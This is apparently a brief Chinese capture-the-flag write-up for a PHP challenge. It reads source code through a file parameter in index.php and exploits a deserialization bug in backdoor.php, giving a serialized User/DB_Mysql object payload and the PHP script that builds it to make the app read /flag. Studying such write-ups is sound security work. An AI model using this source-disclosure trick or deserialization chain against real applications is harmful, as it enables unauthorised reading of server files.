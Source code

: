 访问 /index.php?do=search&file=index.php 读取源码

发现backdoor.php 存在和反序列化漏洞

payload:
O:4:"User":6:{s:4:"user";N;s:9:"hechengyu";N;s:5:"trash";N;s:2:"db";N;s:6:"tbUser";N;s:6:"string";O:4:"User":6:{s:4:"user";N;s:9:"hechengyu";O:8:"DB_Mysql":8:{s:4:"host";N;s:8:"username";N;s:8:"password";N;s:8:"database";N;s:7:"charset";N;s:6:"linkId";N;s:7:"queryId";N;s:10:"configfile";s:5:"/flag";}s:5:"trash";N;s:2:"db";N;s:6:"tbUser";N;s:6:"string";N;}}

```php
<?php
class DB_Mysql
{
    public $host, $username, $password, $database, $charset;
    public $linkId, $queryId, $configfile;
}

class User
{
    public $user;
    public $hechengyu;
    public $trash;
    public $db;
    public $tbUser;
    public $string;
}

$a = new User();
$b = new DB_Mysql();
$c = new User();

$b->configfile = "/flag";
$c->hechengyu = $b;
$a->string = $c;

echo serialize($a);

```
